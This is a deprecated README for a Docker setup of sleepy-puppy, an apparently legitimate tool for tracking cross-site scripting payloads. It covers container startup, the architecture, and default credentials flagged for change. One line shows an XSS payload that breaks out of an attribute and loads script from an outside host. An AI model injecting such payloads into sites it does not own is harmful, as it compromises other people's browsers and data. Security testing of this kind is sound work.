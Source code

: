 DEPRECATED
=======================


For full documentation, please see the [wiki](https://github.com/Netflix/sleepy-puppy/wiki).

This repo utilizes docker compose to launch a cluster of containers to support the sleepy-puppy project.  This is only meant to be used to **play**.  See the [Issues](#Issues) section for information regarding productionalizing these containers.

----------

## Requirements
* Latest version of [Docker Toolbox](https://www.docker.com/toolbox)
* A vm you have created with docker-machine
* Terminal with all docker env variables set

Starting
-------------
First determine the ip address of your docker vm

> docker-machine ls

Replace the host variable in `docker-compose.yaml` with that IP

```
    host: <YOUR IP ADDRESS HERE>
```

Start the conatiners

> docker-compose up

Stopping
-------------
> docker-compose stop

Try It Out
-------------
Launch web browser and connect to your docker container's IP over http. 
The default credientials are `admin/password`


Architecture
-------------

This project launches three containers:

 1. postgres:latest
 2. sleepy-puppy-nginx:0.2.0
 3. sleepy-puppy-web:0.2.0

Externally, only sleepy-puppy-nginx exposes any ports.  This container only exposes TCP 80.  See the [Issues](#Issues) section for an explanation of why TCP 443 was not exposed.


Issues
-------------

**No SSL**
Other containers in the zeroToDocker project use self-signed SSL certificates, as only the user will be required to have their browser accept this SSL cert.  For sleepy-puppy, the user, and anyone browsing any site with a sleepy-puppy payload would need to accept the self-signed SSL cert.

This is likely to cause confusion when trying to get a payload to fire.  To simplify the situation, the docker will not expose SSL.  To save a few characters and avoid mixed-content warnings, sleepy-puppy payloads exclude the protocol.

	> '"><script src=//ti.ht/x?u=2></script>

Because the payloads exclude the protocol, and the container is not listening on SSL, the payloads will only fire on HTTP (not HTTPS) sites.

If you plan to run this in production, you will need to obtain an SSL cert from a trusted source and modify the sleepy-puppy-nginx container to terminate the SSL.

----------

**Default credentials on the web UI**
The username for the sleepy-puppy web UI is `admin`.  The docker-compose.yml defines the password as `password` by setting the `DOCKER_ADMIN_PASS` environment variable.  

For production use, you will want to modify or remove this default account.

**Default Flask-Secret and CSRF-Secret**
The docker-compose.yml defines a `secret_key` and `csrf_session_key` environment variable which are passed into the Flask application.

For production use, you will want to modify these values.

**Default credentials on the postgres database**
The username for the postgres database is `postgres`.  The password for this database is actually set in the api-start.sh file found within the sleepy-puppy-web container.  This password is set to `password`.

You may wish to change this password for production use.
